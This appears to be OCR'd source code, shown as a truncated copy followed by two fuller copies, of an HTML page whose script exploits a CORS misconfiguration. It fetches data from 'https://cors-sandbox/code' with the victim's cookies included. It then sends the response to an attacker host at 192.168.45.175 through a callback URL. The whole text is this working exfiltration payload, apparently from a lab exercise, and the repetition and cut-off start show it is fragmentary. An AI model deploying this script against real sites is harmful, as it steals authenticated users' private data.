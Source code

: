 }

// Call the function to initiate the fetch process
get_code();
</script>
</head>
<body></body>
</html>
<html>
<head>
<script>
// Define the URL for fetching data
var url = "https://cors-sandbox/code";

// Function to fetch data from the defined URL
function get_code() {
  // Perform a GET request to the URL with CORS enabled and credentials included
  fetch(url, {
    method: 'GET',
    mode: 'cors',          // Enable Cross-Origin Resource Sharing (CORS)
    credentials: 'include' // Include credentials (e.g., cookies) in the request
  })
  .then(response => response.json()) // Convert the response to JSON
  .then(data => {
    // After receiving and parsing the JSON data, send it to another server
    fetch('http://192.168.45.175/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors' // Disable CORS for the callback request
    });
  });
}

// Call the function to initiate the fetch process
get_code();
</script>
</head>
<body></body>
</html>
```html
<html>
<head>
<script>
// Define the URL for fetching data
var url = "https://cors-sandbox/code";

// Function to fetch data from the defined URL
function get_code() {
  // Perform a GET request to the URL with CORS enabled and credentials included
  fetch(url, {
    method: 'GET',
    mode: 'cors',          // Enable Cross-Origin Resource Sharing (CORS)
    credentials: 'include' // Include credentials (e.g., cookies) in the request
  })
  .then(response => response.json()) // Convert the response to JSON
  .then(data => {
    // After receiving and parsing the JSON data, send it to another server
    fetch('http://192.168.45.175/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors' // Disable CORS for the callback request
    });
  });
}

// Call the function to initiate the fetch process
get_code();
</script>
</head>
```